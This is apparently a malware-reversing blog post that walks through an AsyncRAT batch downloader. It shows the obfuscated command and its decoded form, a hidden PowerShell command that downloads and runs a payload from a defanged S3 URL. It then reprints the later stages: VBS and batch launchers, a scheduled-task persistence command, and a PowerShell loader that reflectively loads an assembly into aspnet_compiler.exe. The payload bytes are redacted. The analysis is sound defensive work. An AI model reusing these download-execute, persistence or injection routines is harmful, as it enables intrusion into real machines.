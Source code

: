 ```yaml
---
tags: RAT-Reversing
---
```

## Reversing ASync RART Downloaders / Configs

Going through a few examples / techniques that can be used to find the configuration information for ASync RAT payloads.

## Example 1 - Batch Downloader

Out initial file is taken from:
https://www.virustotal.com/gui/file/16b4a6fec76b452f77a6832871ff2e906d673e557a0e6c2673fc952181d1319b

This is a fairly simple batch script which contains a lot of garbage Japanese strings, but within these strings there is a variable being defined, and an interesting command line.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/1c5a6dc9-20af-43d5-9a39-95245285aa2a)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/7f365d8e-b5b4-46ea-a4bb-f99579f74a2b)

```powershell
C^M^D.%rHX%X%rHX% /C P^OW%rHX%RSH%rHX%LL.%rHX%X%rHX% -N^O^P -WI^N^D HIDD%rHX%N -%rHX%X%rHX%C B^YPA^SS -NO^NI [BYT%rHX%[]];$vjpi='I%rHX%X(N%rHX%W-OBJ%rHX%CT N%rHX%T.W';$Jzzm='%rHX%BCLI%rHX%NT).DOWNLO';[BYT%rHX%[]];$AYeD='TUUL(''hxxps[://]buckotx.s3.amazonaws[.]com/x.png'')'.R%rHX%PLAC%rHX%('TUUL','ADSTRING');[BYT%rHX%[]];I%rHX%X($vjpi+$Jzzm+$AYeD)
```

Similar to our method in the Analysing Obfuscated PowerShell Scripts blog, if we set the variable and add an "echo" to before the ommand line, we are able to deobfuscate the string.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/89a35c56-d8f2-488c-82e2-19d7491efdca)

Which gives us this output:

```
CMD.EXE /C POWERSHELL.EXE -NOP -WIND HIDDEN -EXEC BYPASS -NONI [BYTE[]];$vjpi='IEX(NEW-OBJECT NET.W';$Jzzm='EBCLIENT).DOWNLO';[BYTE[]];$AYeD='TUUL(''hxxps[://]buckotx.s3.amazonaws[.]com/x.png'')'.REPLACE('TUUL','ADSTRING');[BYTE[]];IEX($vjpi+$Jzzm+$AYeD)
```

Essentially, the command is downloading and executing a payload from 'hxxps[://]buckotx.s3.amazonaws[.]com/x.png'

This payload creates the directory 'C:\ProgramData\Not\' and downloads further payloads and outputs them in this directory.

These payloads are ran in chained execution, until the final payload, which executes 2 PEs to deploy the ASync RAT.

xx.vbs:
```
WScript.Sleep(2000)
set A = CreateObject("WScript.Shell")
A.run "C:\ProgramData\Not\xx.bat",0
```

xx.bat:
```
schtasks.exe /create /tn App /sc minute  /mo 3 /tr "C:\ProgramData\Not\Bin.vbs"
```

Bin.vbs:
```
With CreateObject("WScript.Shell")
.Run "C:\ProgramData\Not\Bin.bat", 0, True
End With
```

Bin.bat:
```
PowerShell -NoProfile -ExecutionPolicy Bypass -Command C:\ProgramData\Not\Bin.ps1
```

Bin.ps1:
```
Function Binary2String([String] $Yatak) {
    $byteList = [System.Collections.Generic.List[Byte]]::new()
    for ($i = 0; $i -lt $Yatak.Length; $i +=8) {
        $byteList.Add([Convert]::ToByte($Yatak.Substring($i, 8), 2))
    }
    return [System.Text.Encoding]::ASCII.GetString($byteList.ToArray())
}
Function HexaToByte([String] $IN) {
    $data = $IN.Replace('@','0')
    $bytes = New-Object -TypeName byte[] -ArgumentList ($data.Length / 2)
    for ($i = 0; $i -lt $data.Length; $i += 2) {
        $bytes[$i / 2] = [Convert]::ToByte($data.Substring($i, 2), 16)
    }
    return [byte[]]$bytes
}

start-sleep 1

$serv = '4D5A9@@@@3@@@@@@@4@@@@@@FFFF@@@@B8@@@@@@@@@@@@@@4@@@@@@@@@@@@@@@@@@@@@@...REDACTED'

$Data = '4D5A9@@@@3@@@@@@@4@@@@@@FFFF@@@@B8@@@@@@@@@@@@@@4@@@@@@...REDACTED'

 try 
{
	[byte[]]$WULC4 = HexaToByte($serv)
    [byte[]]$YIV4Z = HexaToByte($DATA)
	$OKM4 = (Binary2String("#1###1#1#1111####11##1#1#11###11#111#1#1#111#1###11##1#1".Replace('#','0')))
	$inv = (Binary2String("0#00#00#0##0###00###0##00##0####0##0#0##0##00#0#".Replace('#','1')))
	$Path  = 'C:' + '\Wi##nd##ows\Mi#' + '#cro##soft.NET\Frame#' + '#work\v4.0.30319\asp##net_com##pi##ler.' + 'e' + 'x' + 'e'
	$NN0 = [System.Reflection.Assembly]
	$NN1 = $NN0::Load(($YIV4Z))
	$NN2 = $NN1.GetType('G'+ 'IT.l' + 'ocal');
	$NN3 = $NN2.'GetMethod'($OKM4);
	$NN3.$inv($null,[object[]] ($Path.Replace("##",""),$WULC4));
  
   } catch { }
```
